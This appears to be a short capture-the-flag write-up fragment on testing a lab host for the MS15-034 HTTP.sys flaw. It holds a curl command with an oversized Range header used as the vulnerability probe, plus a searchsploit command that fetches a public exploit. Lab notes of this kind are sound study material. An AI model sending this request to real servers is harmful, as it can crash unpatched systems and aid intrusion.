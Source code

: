 [https://anantshri.github.io/manual_verification/templates/ms15-034](https://anantshri.github.io/manual_verification/templates/ms15-034)

![](assets/Devel_assets/Pasted%20image%2020230615203354.png)
`curl -v 10.10.10.5/ -H "Host: test" -H "Range: bytes=0-18446744073709551615"`
![](assets/Devel_assets/Pasted%20image%2020230615203443.png)


[https://learn.microsoft.com/en-us/security-updates/securitybulletins/2015/ms15-034](https://learn.microsoft.com/en-us/security-updates/securitybulletins/2015/ms15-034)

![](assets/Devel_assets/Pasted%20image%2020230615210429.png)
`searchsploit -m 36773`
